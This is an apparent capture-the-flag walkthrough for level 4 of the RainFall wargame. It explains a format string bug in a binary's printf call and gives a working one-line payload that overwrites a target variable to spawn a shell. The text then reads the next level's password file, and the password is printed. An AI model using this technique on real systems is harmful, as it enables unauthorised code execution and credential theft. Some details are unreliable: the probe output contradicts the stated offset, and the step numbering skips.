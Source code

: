 # Level 4 -  Walkthrough

## Challenge Overview
Level 4 is a **format string vulnerability** challenge.  is same way as Level 3 with defrent target value and address.

---

## Step 1: Understanding the Program

### What does the program do?
Let's look at the program structure:

```bash
level4@RainFall:~$ gdb -q level4
(gdb) set disassembly-flavor intel
(gdb) disassemble main
```

The program has this flow:
```
main() → calls n() → calls p() → vulnerable printf()
```

### The Critical Parts (Simplified)

**Function `p()` - The Vulnerable Function:**
```assembly
p:
  ; ... setup code ...
  call   fgets@plt            ; reads YOUR input into a buffer
  ; ... more code ...
  call   printf@plt           ; printf(your_input) ← THE BUG!
```

**🚨 The Bug:** The program does `printf(your_input)` instead of `printf("%s", your_input)`. This means YOU control the format string!

**Function `n()` - The Target Check:**
```assembly
n:
  ; ... calls p() ...
  cmp    $0x1025544,%eax      ; compares a memory value with 16930116
  jne    0x80484a5            ; if NOT equal, exit
  ; if EQUAL:
  call   system@plt           ; system("/bin/sh") ← OUR GOAL!
```

**🎯 Our Mission:** Make the memory location contain the value `0x1025544` (16,930,116 in decimal).

---


## Step 2: Finding Our Target

### What Memory Address to Attack?
We need to find where the program stores the value it compares with `0x1025544`.

```bash
(gdb) disassemble n
# Look for: cmp $0x1025544,%eax
# This tells us the program loads a value from memory and compares it
```

Through analysis (checking cross-references, looking at data sections), we find the target address is: **`0x8049810`**



---

## Step 3: Discovering Stack Layout

### Finding Where Our Input Appears
We need to know where our input lands on the printf argument stack:

```bash
level4@RainFall:~$ echo "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x" | ./level4
AAAA200.b7fd1ac0.b7ff37d0.41414141...
```

See that `41414141`? That's our "AAAA" in hex! It appears at position 12.


Perfect! Position 12 is where our input starts.

---


## Step 4: Running the Exploit

```bash
(python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'; cat) | ./level4
```

---

## Step 9: Success and Password Retrieval

If everything works correctly:

```bash
$ whoami
level5

$ cat /home/user/level5/.pass
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

---